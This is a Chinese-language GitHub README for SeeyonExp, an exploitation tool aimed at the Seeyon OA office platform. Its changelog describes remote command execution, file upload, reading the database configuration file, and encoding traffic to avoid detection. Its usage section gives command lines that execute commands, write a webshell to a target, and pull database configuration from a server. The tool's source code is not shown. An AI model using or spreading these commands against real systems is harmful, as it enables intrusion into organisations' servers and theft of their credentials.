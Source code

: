 # SeeyonExp

### 0x00 开发日志

2021-1-10 V0.7 增加识别版本后无损检测漏洞功能，有那么点漏扫的意思

2020-11-11 V0.6 增加数据库配置文件读取功能

2020-11-10 V0.5 增加回显流量加密功能，Base64与ascii结合，Base65

2020-11-2 V0.4 解决命令执行for循环无法执行for之后Java代码的bug，分号的神奇作用

2020-10-30 V0.3 增加文件上传功能，Base64不编码写入不了，黑名单校验

2020-10-22 V0.2 命令可以在windows与Linux下执行，并支持https

2020-10-20 V0.1 根据POC写出初步利用，可以执行命令，但是仅在windows与http下

### 0x01 使用方法

无损检验是否存在漏洞：java -jar seeyon.jar scan http/https://xxxx.com:port/seeyon 

执行命令：java -jar seeyon.jar http/https://xxxx.com:port/seeyon cmd 

写入shell：java -jar seeyon.jar http/https://xxxx.com:port/seeyon shell srcFile desFile 

读取数据库配置文件：java -jar seeyon.jar http/https://xxxx.com:port/seeyon dataConf 

流量解码：java -jar seeyon.jar decode ciphertext 

流量编码：java -jar seeyon.jar encode Plaintext

使用参考：https://mp.weixin.qq.com/s/NKksirrM5Zg5BGCu4fY8LQ
